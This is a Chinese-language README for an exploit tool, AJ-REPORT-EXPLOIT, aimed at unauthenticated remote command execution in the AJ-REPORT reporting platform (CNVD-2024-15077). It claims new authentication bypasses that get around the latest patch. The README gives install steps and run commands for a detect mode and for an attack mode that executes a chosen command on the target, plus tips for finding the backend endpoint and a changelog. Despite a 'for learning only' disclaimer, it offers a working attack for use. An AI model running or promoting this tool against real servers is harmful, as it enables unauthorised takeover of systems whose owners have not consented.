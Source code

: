 源代码来源：https://github.com/yuebusao/AJ-REPORT-EXPLOIT

仅用于学习，请勿用于非法用途

## AJ-REPORT-EXPLOIT
AJ-REPORT未授权远程命令执行CNVD-2024-15077利用工具，在原版基础上增加了新的鉴权绕过以及远程命令执行方式，可以绕过最新修复。

### 分析
见AJ-REPORT远程命令执行.md

### 使用
```
pip install -r requirements.txt
python exp.py -u attack_url -b bypass1 -m detect
```

### 注意事项
请点击登陆查看请求`url`确定后端接口。
如输入用户名密码点击登录后发现接口为`http://x.x.x.x/squirt1e/accessUser/login`。
则检测命令为
```
python exp.py -u http://x.x.x.x/squirt1e/ -b bypass1 -m detect
```

### 2025-0722 改进项
1. 自动检查baseUrl，不需要使用者手动探测，大幅提高了使用效率，传入 -u 参数需以根目录结尾，如: "http://1.2.3.4/", 而非 "http://1.2.3.4/index.html"
2. 增加了 -c 参数，可以指定命令行
3. payload中增加了自动检测系统环境的功能，自动切换cmd和sh
4. 解决SSL问题


```
python3 exp.py -u http://xxxx:xx/ -b bypass2 -m attack -c id
```
